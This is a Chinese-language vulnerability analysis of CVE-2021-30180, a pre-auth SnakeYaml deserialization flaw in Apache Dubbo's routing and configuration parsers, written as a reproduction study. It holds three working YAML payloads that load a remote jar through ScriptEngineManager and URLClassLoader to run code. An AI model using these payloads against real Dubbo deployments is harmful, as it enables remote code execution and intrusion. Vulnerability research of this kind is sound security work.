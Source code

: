 ```yaml
---
sidebar_position: 1
tags: [CVE, Dubbo, Deserialization, SnakeYaml]
---
```


# CVE-2021-30180 Apache Dubbo Tag routing Yaml pre-auth 反序列化漏洞 GHSL-2021-040、GHSL-2021-041、GHSL-2021-043

## 概述

### 影响版本

2.6.10、[2.7.0, 2.7.9]

首先看一下 [漏洞披露邮件](https://lists.apache.org/thread/v9s10y8r7obof0yo9vp8c5hsn746zvkh) 是这样描述的，Dubbo 支持配置覆盖，这些配置被加载到配置中心（Zookeeper, Nacos等）。Dubbo 可以配置 [Tag routing](https://dubbo.apache.org/en/docs/v2.7/user/examples/routing-rule/#tag-routing-rules) 规则使得 customer 请求到正确端点，该过程由 yaml 解析，所以存在预授权反序列化。

## 复现分析

### TagRuleParser

通过 `TagRouter` 触发 `org.apache.dubbo.rpc.cluster.router.tag.model.TagRuleParser#parse()`

![image-20240204100107693](attachments/image-20240204100107693.png)

这个漏洞比较好跟，直接就能定位到 `org.apache.dubbo.rpc.cluster.router.tag.TagRouter#notify()` 然后按照 `ruleRepository.getRule()` 解析的要求去构造就能复现了。

![image-20240204100305200](attachments/image-20240204100305200.png)

```
---
tags:
- name: pwn
  addresses:
    - !!javax.script.ScriptEngineManager [
        !!java.net.URLClassLoader [[
          !!java.net.URL ["http://127.0.0.1:1234/SnakeyamlDemo-1.0.jar"]
        ]]
      ]
```

### ConditionRuleParser

通过 `ListenableRouter` 触发的 `org.apache.dubbo.rpc.cluster.router.condition.config.model.ConditionRuleParser` 也存在问题

![image-20240204105004759](attachments/image-20240204105004759.png)

限定了 Constructor，所以还得包装一下

```
---
conditions:
 - !!javax.script.ScriptEngineManager [
   !!java.net.URLClassLoader [[
     !!java.net.URL ["http://127.0.0.1:1234/SnakeyamlDemo-1.0.jar"]
   ]]
 ]
```

![image-20240204105023629](attachments/image-20240204105023629.png)

### ConfigParser

`org.apache.dubbo.rpc.cluster.configurator.parser.ConfigParser#parseObject()` 也存在问题

![image-20240204165501839](attachments/image-20240204165501839.png)

payload

```
---
configs:
 - !!javax.script.ScriptEngineManager [
   !!java.net.URLClassLoader [[
     !!java.net.URL ["http://127.0.0.1:1234/SnakeyamlDemo-1.0.jar"]
   ]]
 ]
```

Dubbo 配置相关的漏洞触发起来都不难，在这两个类打断点，基本上就能知道需要什么配置了 `org.apache.dubbo.common.config.configcenter.DynamicConfiguration`、`org.apache.dubbo.common.config.Environment`。
